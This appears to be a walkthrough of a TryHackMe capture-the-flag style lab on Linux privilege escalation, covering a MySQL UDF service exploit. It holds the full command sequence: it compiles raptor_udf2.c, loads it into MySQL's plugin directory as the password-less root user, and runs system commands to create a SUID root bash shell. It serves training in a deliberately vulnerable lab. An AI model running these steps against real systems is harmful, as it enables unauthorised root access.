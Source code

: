 | [![Linux PrivEsc](/_static/images/linuxprivesc-room-banner.png)](https://tryhackme.com/room/linuxprivesc) |
|:--:|
| [https://tryhackme.com/room/linuxprivesc](https://tryhackme.com/room/linuxprivesc) |

# Linux PrivEsc

This room is excellent for reinforcement of the most common Linux privilege escalation techniques. 
After each technique, exit out of the `root` shell gained, and/or re-establish a session as the `user` account 
before starting a next task!

    uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev)

## Service exploits

The MySQL service is running as root and the "root" user for the service does not have a password assigned. We can use a 
that takes advantage of User Defined Functions (UDFs) to run system commands as root via the MySQL service.

Change into the `/home/user/tools/mysql-udf` directory:

    cd /home/user/tools/mysql-udf

Compile the `raptor_udf2.c` exploit code:

    gcc -g -c raptor_udf2.c -fPIC
    gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc

Connect to the MySQL service as the root user with a blank password:

    mysql -u root

Execute the following commands on the MySQL shell to create a User Defined Function (UDF) `do_system` using the 
compiled exploit:

    use mysql;
    create table foo(line blob);
    insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
    select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
    create function do_system returns integer soname 'raptor_udf2.so';

Use the function to copy `/bin/bash` to `/tmp/rootbash` and set the `SUID` permission:

    select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');

Exit out of the MySQL shell (type `exit` or `\q `and press Enter) and run the `/tmp/rootbash` executable with `-p` to 
gain a shell running with root privileges:

    /tmp/rootbash -p

Remove the `/tmp/rootbash` executable and exit out of the root shell before continuing as you will create this file 
again later.
